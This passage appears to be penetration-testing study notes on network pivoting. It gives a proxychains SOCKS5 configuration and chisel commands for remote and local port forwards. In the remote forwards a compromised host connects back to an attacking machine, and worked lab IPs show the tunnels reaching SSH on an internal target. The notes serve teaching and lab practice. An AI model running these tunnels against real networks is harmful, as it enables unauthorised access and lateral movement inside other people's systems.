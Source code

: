 ```
[ProxyList]
# add proxy here ...
# meanwhile
# defaults set to "tor"
socks5  127.0.0.1 1080
```

### Chisel Remote Port Forward:

* A remote port forward is when we connect back from a compromised target to create the forward.
* For a remote port forward, on our attacking machine we use the exact same command as before:

```
./chisel server -p LISTEN_PORT --reverse &
```

* Once again this sets up a chisel listener for the compromised host to connect back to.
* The command to connect back is slightly different this time, however:

```
./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT &
```

* Let's assume that our own IP is `172.16.0.20`, the compromised server's IP is `172.16.0.5`, and our target is port `22` on `172.16.0.10`. The syntax for forwarding `172.16.0.10:22` back to port `2222` on our attacking machine would be as follows:

```
./chisel client 172.16.0.20:1337 R:2222:172.16.0.10:22 &
```

* Connecting back to our attacking machine, functioning as a chisel server started with:

```
./chisel server -p 1337 --reverse &
```

* This would allow us to access `172.16.0.10:22` (via SSH) by navigating to `127.0.0.1:2222`.

### Chisel Local Port Forward:

* As with SSH, a local port forward is where we connect from our own attacking machine to a chisel server listening on a compromised target.
* On the compromised target we set up a chisel server:

```
./chisel server -p LISTEN_PORT
```

* We now connect to this from our attacking machine like so:

```
./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT
```

* For example, to connect to `172.16.0.5:8000` (the compromised host running a chisel server), forwarding our local port `2222` to `172.16.0.10:22` (our intended target), we could use:

```
./chisel client 172.16.0.5:8000 2222:172.16.0.10:22
```
